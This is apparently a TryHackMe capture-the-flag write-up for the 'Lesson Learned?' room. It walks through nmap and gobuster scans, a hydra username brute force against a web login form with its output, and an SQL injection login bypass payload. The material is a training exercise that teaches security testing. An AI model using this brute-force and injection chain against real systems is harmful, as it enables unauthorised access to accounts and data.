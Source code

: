 ```yaml
---
title: Lesson Learned? - TryHackMe Write-Up
date: 2024-11-04
description: A write-up on the room Lesson Learned?.
author: PrintN
---
```

![Image 0](0.webp)
## Introduction
Today we're going to take a look at [Lesson Learned?](https://tryhackme.com/r/room/lessonlearned) room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.
![Screenshot 1](1.webp)

## Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

## OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.
![Screenshot 2](2.webp)

_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088)_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)

## Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

## SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.
![Screenshot 4](4.webp)

And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
![Screenshot 5](5.webp)